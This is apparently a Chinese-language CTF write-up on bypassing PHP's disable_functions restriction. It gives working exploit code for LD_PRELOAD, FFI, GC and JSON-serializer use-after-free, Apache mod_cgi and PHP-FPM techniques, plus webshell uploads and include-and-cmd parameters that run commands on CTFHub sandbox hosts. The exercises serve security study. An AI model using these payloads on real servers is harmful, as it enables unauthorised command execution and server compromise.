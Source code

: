 ```yaml
---
title: 【WEB】bypass-disable-function
---
```


# bypass disable_function

是 php 禁用的函数，在 phpinfo 中可以查看

例如禁用 system 函数就无法执行命令，然后我们可以用一下方法饶过他的限制

可用的函数有

```
dl
putenv 
error_reporting
error_log
file_put_contents
file_get_contents
fopen
fclose 
fwrite
tempnam 
imap_open
symlink
curl_init
fsockopen
```

利用代码见：http://github.com/AntSwordProject/AntSword-Labs/tree/master/bypass_disable_functions



## 关于文件上传

有些时候需要包含文件，但是又不能访问根目录，以及当前目录没有写权限

我们可以利用自包含的方式传递文件到 /tmp 然后用 var_dump(scandir('/tmp/')) 查看内容，php5 大多数版本可用

例如：

```
curl -F file=@shellshock.php -X POST http://challenge-fc37b0a33351b3a2.sandbox.ctfhub.com:10080/backdoor/index.php?ant=include(%27index.php%27);
```

然后文件就会留在 /tmp 目录,直接包含即可



## LD_PRELOAD

需要用到的条件有

```
Linux 操作系统
putenv
mail or error_log
存在可写的目录, 需要上传 .so 文件
```

用蚁剑插件的话需要当前 shell 目录可写

然后会在当前目录下自动生成这个文件：

```
.antproxy.php
```

之后连接这个文件，密码不变，即可在虚拟终端执行命令

但如果当前目录不可写，可以上传文件至 /tmp，之后包含

首先需要生成 so 文件

test.c ( payload 可替换 )

```
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
void payload() {
    system("/readflag > /tmp/test");
}   
int  geteuid() {
if (getenv("LD_PRELOAD") == NULL) { return 0; }
    unsetenv("LD_PRELOAD");
    payload();
}
```

执行命令

```
gcc -c -fPIC test.c -o test
gcc --share test -o test.so
```

将 c 编译成 so 文件

之后上传 shell.php 和 test.so 至 /tmp

shell.php

```
<?php
    putenv("LD_PRELOAD=/tmp/test.so");
    error_log("test",1,"","");
    mail("test@localhost","","","","");
?>
```

之后包含该 shell.php 文件，即可实现命令执行，输出执行 /realflag 的结果到 /tmp/test



## Apache Mod CGI

需要的条件有

```
Linux 操作系统
Apache + PHP (apache 使用 apache_mod_php)
Apache 开启了 cgi, rewrite
Web 目录给了 AllowOverride 权限
网站目录可写
```

也就是说只要是 Apache + PHP 环境就可能存在这个漏洞

蚁剑插件需要 shell 目录可写，然后即可在虚拟终端执行命令

手动的话，就上传 .htaccess 和 shell.ant 文件到网站目录

然后更改 shell.ant 权限为 777

访问 shell.ant 执行命令



## PHP-FPM

简单来说就是访问 FPM 端口，通过 cgi 从而修改 php 文件设置，使已有 php 文件包含自己传入的命令

需要的条件有

```
Linux 操作系统
PHP-FPM
存在可写的目录, 需要上传 .so 文件
```

通常端口是 9000 但有时也不固定

当 shell 目录可写的时候，使用蚁剑插件可以在当前目录生成一个 .antproxy.php 文件

然后连接这个文件，即可操作终端



## Json Serializer UAF

需要的条件有

```
Linux 操作系统
PHP 版本
7.1.X 
7.2 < 7.2.19 
7.3 < 7.3.6
```

蚁剑插件可直接打开虚拟终端执行命令

手动的话，需要上传文件，比如传到 /tmp 目录，然后包含一下，这里我用 curl 没有上传成功，使用了一个上传页面成功上传

```
<!DOCTYPE html>
<html>
<head>
    <title></title>
</head>
<body>
    <form action="http://challenge-777ab141ad3bd5be.sandbox.ctfhub.com:10080/?ant=include(%27index.php%27);" method="post" enctype="multipart/form-data">
        <input type="file" name="file" />
        <br>
        <input type="submit" />
</body>
</html>
```

然后包含一下

```
?ant=include('/tmp/phpMnoKON');&cmd=/readflag
```

使用 cmd 参数执行命令



## GC UAF

这个就有点强了，适用于目前 PHP7 绝大部分版本

```
- 7.0 - all versions to date
- 7.1 - all versions to date
- 7.2 - all versions to date
- 7.3 - all versions to date
```

蚁剑插件可直接在虚拟终端执行命令，如果不成功，可以手动上传

上传文件至 /tmp 目录，然后包含，即可利用 cmd 参数执行命令

```
?ant=include('/tmp/exp.php');&cmd=/readflag
```



## FFI

使用条件有

```
Linux 操作系统
PHP >= 7.4
开启了 FFI 扩展且 ffi.enable=true
```

蚁剑插件可直接在虚拟终端执行命令

手动上传的话，上传 FFI_exp.php 到 /tmp 目录，修改 FFI_exp.php 中内容执行命令

FFI_exp.php：

```
<?php
    $ffi = FFI::cdef("int system(const char *command);");
    $ffi->system("/readflag > /tmp/123");
    echo file_get_contents("/tmp/123");
    @unlink("/tmp/123");
?>
```

然后包含

```
?ant=include('/tmp/FFI_exp.php');
```

即可获得 flag